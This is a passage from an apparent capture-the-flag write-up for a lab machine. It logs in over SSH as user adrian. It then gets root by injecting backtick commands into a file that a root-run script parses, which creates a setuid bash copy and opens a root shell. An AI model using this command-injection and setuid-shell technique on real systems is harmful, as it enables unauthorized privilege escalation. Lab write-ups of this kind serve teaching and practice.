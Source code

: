 now we can ssh in as  andrian

```bash
$ ssh adrian@10.10.244.151
```

## Privilege escalation to root

in the home folder of adrian there is a file "punch_in" a note to this file seen in .notes in the ft, which shows that each line in this file is being parse and the script is being runned by root so by modifying this file we can create a "root bash" by adding the two lines

```bash
cat punch_in
`cp /bin/bash /home/adrian/bash`
`chmod +s /home/adrian/bash`
Punched in at 20:58
```

now wainting for a new minutes to pass creating a root bash in home folder of adrian. Access to root can be gained now 

```bash
adrian@brute:~$ ./bash -p
bash-5.0# whoami
root
bash-5.0#
```
